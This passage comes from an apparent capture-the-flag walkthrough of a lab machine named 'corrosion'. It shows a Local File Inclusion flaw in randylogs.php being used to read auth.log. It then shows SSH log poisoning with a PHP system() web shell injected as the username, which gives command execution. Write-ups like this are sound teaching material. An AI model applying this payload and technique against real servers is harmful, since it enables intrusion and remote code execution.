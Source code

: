 It did not contain any useful exif data:<br><br>

```
exif image.jpg 

Corrupt data
The data provided does not follow the specification.
ExifLoader: The data supplied does not seem to contain EXIF data.
```

We check out "/archives". Inside, there is a php script - randylogs.php - that does not seem to do anything. So, we fire up Burp and start playing around. Remember how the to-do list mentioned auth.log permissions? As it turns out, this server is susceptible to Local File Inclusion (LFI). We are able to view auth.log using "?file=/var/log/auth.log":<br><br>

![burp1](./docs/corrosion/corrosion_05_burp.png)

## Privilege escalation

We can take advantage of this access and utilize SSH log poisoning through LFI by attempting to login via SSH with a fake user that contains malicious PHP code:<br><br>

```
ssh '<?php system($_GET['c']); ?>'@corrosion
<?php system($_GET[c]); ?>@corrosion's password: 
Permission denied, please try again.
```

Now we can test the code by appending a command to the LFI string:<br><br>

![burp2](./docs/corrosion/corrosion_06_burp2.png)
